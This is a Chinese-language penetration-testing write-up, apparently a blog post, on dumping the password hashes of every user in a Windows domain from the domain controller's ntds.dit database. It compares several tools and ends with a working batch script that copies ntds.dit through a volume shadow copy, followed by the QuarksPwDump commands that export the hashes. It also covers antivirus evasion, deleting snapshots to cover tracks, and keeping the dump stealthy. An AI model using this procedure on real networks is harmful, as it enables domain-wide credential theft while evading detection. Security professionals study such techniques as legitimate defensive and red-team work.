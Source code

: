 # 导出当前域内所有用户hash的技术整理

0x00目标：
=======

* * *

导出当前域内所有用户的hash

0x01测试环境：
=========

* * *

```
域控：server2008 r2
杀毒软件：已安装*
域控权限：可使用net use远程登陆，不使用3389

```

0x02测试方法：
=========

* * *

（1）mimikatz：

```
hash数量：只能抓取登陆过的用户hash，无法抓取所有用户
免杀：需要免杀

```

（2）pwdump：

```
hash数量：无法抓取所有用户
免杀：需要免杀

```

（3）vssown.vbs + libesedb + NtdsXtract

```
hash数量：所有用户
免杀：不需要
优点：
    获得信息很全面，可获得以下信息：
    Record ID
    User name
    User principal name
    SAM Account name
    SAM Account type
    GUID
    SID
    When created
    When changed
    Account expires
    Password last set
    Last logon
    Last logon timestamp
    Bad password time
    Logon count
    Bad password count
    User Account Control
    Ancestors
    Password hashes
    Password history
    Supplemental credentials
    Member of

缺点：
    vssown.vbs使用后需要删除快照清理痕迹
    vssown.vbs偶尔会报错
    数据库巨大，下载回本地很麻烦
    libesedb + NtdsXtract环境搭建麻烦，目前网上中文的教程存在一些错误，下载链接也已失效，需要自行摸索
    用vssown.vbs复制出来的ntds.dit数据库无法使用QuarksPwDump.exe读取       

```

* * *

**_Tips:_**  
libesedb + NtdsXtract环境搭建的一点提示：

```
(download libesedb)
https://github.com/libyal/libesedb/releases/download/20150409/libesedb-experimental-20150409.tar.gz
tar zxvf libesedb-experimental-20150409.tar.gz
cd libesedb-20150409
./configure
make
cd esedbtools/
./esedbexport
(copy ntds.dit to ~/libesedb-20150409/esedbtools)
./esedbexport ./ntds.dit
(wait...)
mv ntds.dit.export/ ../../
（download ntdsxtract）
http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip
unzip ntdsxtract_v1_0.zip
cd NTDSXtract 1.0/
(move SYSTEM to '/root/SYSTEM')
(get passwordhashes )
python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link_table.5 --passwordhashes '/root/SYSTEM'

```

* * *

（4）ntdsutil.exe + QuarksPwDump.exe

```
hash数量：所有用户 
免杀：QuarksPwDump.exe需要免杀 
优点： 
    获得信息很全面 QuarksPwDump.exe可在windows下使用，读取hash值的操作简便快捷
缺点： 
    ntdsutil.exe使用后需要删除快照清理痕迹 ntdsutil.exe偶尔会报错 巨大的数据库，QuarksPwDump.exe读取偶尔会报错 server2003的shell下无法使用

```

0x03实际测试：
=========

* * *

*   gethashes.exe：没有源码，忽略
*   mimikatz：无法抓出所有用户hash，本机管理员口令也无法导出
*   pwdump：抓取数量不足
*   vssown.vbs + libesedb + NtdsXtract：成功，耗时3天+
*   ntdsutil.exe + QuarksPwDump.exe：ntdsutil.exe报错，失败

0x04分析：
=======

* * *

5种方法唯一成功的是`vssown.vbs + libesedb + NtdsXtract`，但是耗时太久，操作麻烦，下载数据库容易暴露，`vssown.vbs`备份的信息容易被管理员发现

其他方法中可取的地方：`vssown.vbs`复制数据库的方法很是巧妙，但存在一些不足，配合域控的at命令执行较为麻烦；QuarksPwDump.exe可在windows下直接使用，免去读取数据库的等待，并且`QuarksPwDump`可获得源码，能够配合实际使用做修改。

那么大胆设想一下：如果使用`QuarksPwDump.exe`在域控上直接读取`ntds.dit`岂不是最好

0x05改进：
=======

* * *

（1）分析`vssown.vbs`的复制办法，找到一种更好的解决办法，改用`ShadowCopy`实现`ntds.dit`的复制 （2）对`QuarksPwDump`的改造，实现命令行下的自动读取及导出信息

* * *

**_Tips：_**

```
ShadowCopy 是一款增强型的免费文件复制工具，由于使用了微软卷影副本（`Volume Shadow Copy`）技术，它能够复制被锁定的文件或者被其他程序打开的文件，

因此只要是硬盘的上的文件，即使正被程序占用，`ShadowCopy` 都可以拷贝出来。

```

0x06最终方案：
=========

* * *

（1）使用ShadowCopy的命令行版，编写bat实现拷贝ntds.dit至当前目录

```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vsshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%

```

参考链接： http://blogs.msdn.com/b/adioltean/archive/2005/01/05/346793.aspx

（2）使用QuarksPwDump直接读取信息并将结果导出至文件，先执行

```
esentutl /p /o ntds.dit

```

修复复制出来的数据库

```
QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt

```

读取并导出。

注：实际使用时ntds.dit和log.txt需要加绝对路径

* * *

**_Tips：_**

```
QuarksPwDump.exe：Dump various types of Windows credentials without injecting in any process.
源码下载链接，vs2010直接编译即可
https://github.com/quarkslab/quarkspwdump

```

0x07小结：
=======

* * *

ShadowCopy+QuarksPwDump：

```
hash数量：所有用户
免杀：不需要
优点：
    获得信息全面
    bat一键搞定，简单高效
    无需下载ntds.dit，隐蔽性高
```